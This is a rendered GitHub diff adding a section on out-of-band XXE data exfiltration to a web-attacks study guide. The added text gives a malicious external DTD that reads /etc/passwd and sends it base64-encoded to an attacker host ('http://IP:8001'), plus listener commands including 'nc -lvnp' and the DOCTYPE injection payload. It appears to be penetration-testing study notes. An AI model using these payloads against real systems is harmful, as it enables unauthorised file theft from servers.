

Before and after one commit to QED-92/cyber-security, a Markdown page: web-attacks/web-attacks.md, 2 parts joined by grey strips. Shown at 81% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/web-attacks/web-attacks.md
+++ b/web-attacks/web-attacks.md
@@ -24,6 +24,7 @@ This document covers common techniques for identifying and exploiting **web vuln
         - [Local File Disclosure (LFI)](#local-file-disclosure-lfi)
         - [Advanced File Disclosure - CDATA](#advanced-file-disclosure---cdata)
         - [Advanced File Disclosure - Error Based](#advanced-file-disclosure---error-based)
+        - [Out.of-band Data Exfiltration](#out-of-band-data-exfiltration)
 
 ---
 
@@ -1080,3 +1081,62 @@ The application returns an error message containing the contents of the target f
 This confirms successful **error-based file disclosure via XXE**, even though no application output was directly reflected.
 
 ---
+
+### Out-of-band Data Exfiltration
+
+In the previous section (**Advanced File Disclosure – Error-Based**), we exploited a **blind XXE vulnerability** by leveraging verbose runtime error messages. In this scenario, we encounter a **fully blind XXE vulnerability**, where **no output is returned**—neither reflected entity values nor parser errors.
+
+To exfiltrate data under these conditions, we use **Out-of-Band (OOB) data exfiltration**. This technique forces the application to send the extracted data to an **external system controlled by the attacker**, rather than returning it in the HTTP response.
+
+OOB techniques are not unique to XXE and are commonly used in **SQL injection**, **command injection**, and **XSS** attacks.
+
+**Step 1: Create Malicious External DTD**
+
+We begin by defining two parameter entities inside an external DTD file (`xxe.dtd`).
+
+The first entity reads a local file from the back-end server and **base64-encodes its contents** using a PHP filter wrapper to prevent XML parsing issues:
+
+```xml
+<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
+```
+
+The second entity sends the encoded file contents to our server via an HTTP `GET` request:
+
+```xml
+<!ENTITY % oob "<!ENTITY content SYSTEM 'http://IP:8001/?content=%file;'>">
+```
+
+Both entities are saved within the same `xxe.dtd` file.
+
+**Step 2: Start a Listener**
+
+Next, we start a listener on our attacking machine to capture outbound requests from the target server. Any of the following methods can be used:
+
+```bash
+sudo python3 -m http.server 8001
+```
+
+or
+
+```bash
+sudo php -S 0.0.0.0:8001
+```
+
+or
+
+```bash
+sudo nc -lvnp 8001
+```
+
+**Step 3: Reference the External DTD**
+
+We inject the following payload directly after the XML declaration to load and process the external DTD:
+
+```xml
+<!DOCTYPE email [
+<!ENTITY % remote SYSTEM "http://IP:8001/xxe.dtd">
+%remote;
+%oob;
+]>
+```
+
````
Also changed, not shown: other parts of web-attacks/web-attacks.md (+35 -0 lines), web-attacks/images/oob.PNG (added), web-attacks/images/oob2.PNG (added), web-attacks/images/oob3.PNG (added).
